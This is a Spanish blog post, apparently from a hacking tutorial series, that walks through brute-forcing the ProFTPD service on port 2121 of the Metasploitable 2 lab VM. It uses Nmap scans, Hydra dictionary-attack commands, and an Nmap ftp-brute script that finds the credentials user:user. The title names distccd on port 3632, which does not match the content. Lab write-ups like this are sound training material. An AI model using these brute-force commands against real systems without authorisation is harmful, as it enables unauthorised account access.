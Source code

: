 ```yaml
---
layout: post
title: Metasploitable 2, distccd en el puerto 3632
category: Hacking
comments: true
description: En otros articulos hable del FTP del puerto 21, pero Nmap nos dice que hay otro FTP puesto en el puerto 2121, en este articulo hablare de como poder vulnerar este servicio, y no sera con un exploit manual o mediante metasploit, sino con fuerza bruta.

tags:       
    - hacker
    - metasploitable2
    - metasploit

---
```


En otros articulos hable del FTP del puerto 21, pero Nmap nos dice que hay otro FTP puesto en el puerto 2121, en este articulo hablare de como poder vulnerar este servicio, y no sera con un exploit manual o mediante metasploit, sino con fuerza bruta.

Para descargarte [Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:target="_blank"}

## Los puertos de Metasploitable 2

Como recordaras al explorar la maquina de Metasploitable 2 con Nmap nos daba el siguiente resultado:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00037s latency).
Not shown: 65501 closed ports
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
23/tcp    open     telnet
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
512/tcp   open     exec
513/tcp   open     login
514/tcp   open     shell
1099/tcp  open     rmiregistry
1524/tcp  open     ingreslock
2049/tcp  open     nfs
2121/tcp  open     ccproxy-ftp
3306/tcp  open     mysql
3632/tcp  open     distccd
4239/tcp  filtered vrml-multi-use
5432/tcp  open     postgresql
5900/tcp  open     vnc
6000/tcp  open     X11
6667/tcp  open     irc
6697/tcp  open     ircs-u
8009/tcp  open     ajp13
8180/tcp  open     unknown
8787/tcp  open     msgsrvr
27242/tcp filtered unknown
34652/tcp open     unknown
35474/tcp filtered unknown
41271/tcp open     unknown
41542/tcp open     unknown
42726/tcp open     unknown
54399/tcp filtered unknown
MAC Address: 00:0C:29:D3:5F:CD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 185.82 seconds

{% endhighlight %}

## El puerto 2121

Nmap nos pone que en el puerto 2121 hay un servicio de FTP llamado ccproxy-ftp, pero como necesitamos más le pedimos, más informacion con -sV

{% highlight sql linenos %}

nmap -sT -p 2121  -sV  -T5 192.168.1.39

{% endhighlight %}

Y nos devuelve:

{% highlight sql linenos %}

Starting Nmap 7.50 ( https://nmap.org ) at 2017-08-13 13:36 CEST
Nmap scan report for 192.168.1.39
Host is up (0.00060s latency).

PORT     STATE SERVICE VERSION
2121/tcp open  ftp     ProFTPD 1.3.1
MAC Address: 00:0C:29:D3:5F:CD (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds

{% endhighlight %}

Nmap nos devuelve que este server es un ProFTPD 1.3.1, si buscamos algun exploit para esta versión, no encontramos ninguno, ni en Metasploit ni en searchsploit, por lo que tendriamos que ver otras opciones.

## Ataque por diccionario

La opción principal seria aqui, haber sacado usuarios del sistema durante la fase de enumeración y con ello poder hacer un ataque de diccionario, para ello usaremos la aplicación Hydra, pre-instalada en Kali Linux.

Para hacer este ataque tenemos tres opciones:

* No saber los usuarios

Esta es la peor, ya que nos toca recorrer dos diccionarios y combinarlos entre ellos, es la opción que más tarda. Recueda Kali tiene diccionarios ya en el sistema, pero eso no te impide crear tu otros diccionarios o descargarte nuevos.

<figure>
<img alt="Hydra funcionando a pleno rendimiento" class="img img-responsive" src="/resources/images/hydra.png"/>
<figcaption>
Hydra funcionando a pleno rendimiento
</figcaption>
</figure>

{% highlight sql linenos %}

hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.168.1.39:2121


{% endhighlight %}


Y después de tres horas corriendo con los diccionarios por defecto de Kali.... nada. Seguramente con diccionario hecho a medida hubiese funcionado mejor.

{% highlight sql linenos %}

1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-08-14 10:06:00

{% endhighlight %}

* Saber el usuario, pero no el password

Puede que durante nuestra fase de enumeración, hayamos conseguido nombres de usuario, con ello podemos probar hydra, solo combinando con passwords, es una opción rapida.

{% highlight sql linenos %}

hydra -l user -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.168.1.39:2121

{% endhighlight %}

* Combinación de usuarios y passwords por defecto

La mejor opción es tener una lista de usuarios y passwords ya hecha e Hydra probara esas combinaciones por si alguna es valida. En este caso en Hydra tenemos que usar la opción -C usando un fichero con usuarios y passwords separados con : ejemplo: usuario:password

{% highlight sql linenos %}

hydra -C passwords.txt ftp://192.168.1.39:2121

{% endhighlight %}

## Y al final NMAP gana...

Y al final un script simple de Nmap se lleva el gato al agua, simplemente usando un script de Nmap, tenemos ya un usuario de FTP que poder entrar.
Este es el comando que he usado, pidiendo que se ejecuten todos los scripts relacionados con FTP.

{% highlight sql linenos %}

nmap -sT -sV -p 2121 --script ftp* -T5 192.168.1.39

{% endhighlight %}

El resultado

{% highlight sql linenos %}

Nmap scan report for 192.168.1.39
Host is up (0.00025s latency).

PORT     STATE SERVICE VERSION
2121/tcp open  ftp     ProFTPD 1.3.1
| ftp-brute: 
|   Accounts: 
|     user:user - Valid credentials
|_  Statistics: Performed 11296 guesses in 182 seconds, average tps: 75.9
MAC Address: 00:0C:29:D3:5F:CD (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.38 seconds


{% endhighlight %}

Es decir, el usuario es user, y el password es user... Ya podemos entrar y tener acceso a un FTP.





